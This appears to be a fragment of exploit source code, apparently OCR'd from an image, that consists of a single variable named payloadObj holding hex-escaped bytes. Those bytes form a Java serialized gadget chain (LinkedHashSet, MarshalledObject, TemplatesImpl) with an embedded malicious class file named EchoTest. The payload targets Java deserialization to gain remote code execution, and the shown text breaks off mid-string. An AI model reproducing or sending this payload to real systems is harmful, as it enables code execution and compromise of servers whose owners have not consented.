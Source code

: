 payloadObj='\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x19\x6a\x61\x76\x61\x2e\x72\x6d\x69\x2e\x4d\x61\x72\x73\x68\x61\x6c\x6c\x65\x64\x4f\x62\x6a\x65\x63\x74\x7c\xbd\x1e\x97\xed\x63\xfc\x3e\x02\x00\x03\x49\x00\x04\x68\x61\x73\x68\x5b\x00\x08\x6c\x6f\x63\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x5b\x00\x08\x6f\x62\x6a\x42\x79\x74\x65\x73\x71\x00\x7e\x00\x04\x78\x70\xea\x0c\xa3\xad\x70\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x10\xea\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x3a\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x78\x61\x6c\x61\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x78\x73\x6c\x74\x63\x2e\x74\x72\x61\x78\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x49\x6d\x70\x6c\x09\x57\x4f\xc1\x6e\xac\xab\x33\x03\x00\x08\x49\x00\x0d\x5f\x69\x6e\x64\x65\x6e\x74\x4e\x75\x6d\x62\x65\x72\x49\x00\x0e\x5f\x74\x72\x61\x6e\x73\x6c\x65\x74\x49\x6e\x64\x65\x78\x5a\x00\x15\x5f\x75\x73\x65\x53\x65\x72\x76\x69\x63\x65\x73\x4d\x65\x63\x68\x61\x6e\x69\x73\x6d\x4c\x00\x0b\x5f\x61\x75\x78\x43\x6c\x61\x73\x73\x65\x73\x74\x00\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x48\x61\x73\x68\x74\x61\x62\x6c\x65\x3b\x5b\x00\x0a\x5f\x62\x79\x74\x65\x63\x6f\x64\x65\x73\x74\x00\x03\x5b\x5b\x42\x5b\x00\x06\x5f\x63\x6c\x61\x73\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x4c\x00\x05\x5f\x6e\x61\x6d\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x11\x5f\x6f\x75\x74\x70\x75\x74\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x3b\x78\x70\x00\x00\x00\x00\xff\xff\xff\xff\x00\x70\x75\x72\x00\x03\x5b\x5b\x42\x4b\xfd\x19\x15\x67\x67\xdb\x37\x02\x00\x00\x78\x70\x00\x00\x00\x01\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x0d\x7a\xca\xfe\xba\xbe\x00\x00\x00\x32\x00\xac\x0a\x00\x26\x00\x5a\x0a\x00\x5b\x00\x5c\x0a\x00\x5b\x00\x5d\x08\x00\x5e\x0a\x00\x5f\x00\x60\x08\x00\x61\x07\x00\x62\x0a\x00\x07\x00\x63\x07\x00\x64\x0a\x00\x65\x00\x66\x09\x00\x67\x00\x68\x0a\x00\x69\x00\x6a\x08\x00\x6b\x07\x00\x4d\x0a\x00\x09\x00\x6c\x08\x00\x6d\x0a\x00\x07\x00\x6e\x0a\x00\x6f\x00\x70\x0a\x00\x6f\x00\x71\x0a\x00\x07\x00\x72\x08\x00\x73\x07\x00\x74\x0a\x00\x16\x00\x75\x08\x00\x76\x07\x00\x3d\x08\x00\x77\x07\x00\x78\x08\x00\x79\x0a\x00\x7a\x00\x7b\x0a\x00\x1b\x00\x7c\x0a\x00\x1b\x00\x7d\x08\x00\x7e\x0a\x00\x69\x00\x7f\x0a\x00\x25\x00\x80\x07\x00\x81\x0a\x00\x23\x00\x82\x07\x00\x83\x07\x00\x84\x01\x00\x06\x3c\x69\x6e\x69\x74\x3e\x01\x00\x03\x28\x29\x56\x01\x00\x04\x43\x6f\x64\x65\x01\x00\x0f\x4c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x54\x61\x62\x6c\x65\x01\x00\x12\x4c\x6f\x63\x61\x6c\x56\x61\x72\x69\x61\x62\x6c\x65\x54\x61\x62\x6c\x65\x01\x00\x04\x74\x68\x69\x73\x01\x00\x13\x4c\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x3b\x01\x00\x09\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x01\x00\x72\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x64\x6f\x63\x75\x6d\x65\x6e\x74\x01\x00\x2d\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x01\x00\x08\x68\x61\x6e\x64\x6c\x65\x72\x73\x01\x00\x42\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x0a\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x07\x00\x85\x01\x00\xa6\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x69\x74\x65\x72\x61\x74\x6f\x72\x01\x00\x35\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x01\x00\x07\x68\x61\x6e\x64\x6c\x65\x72\x01\x00\x41\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63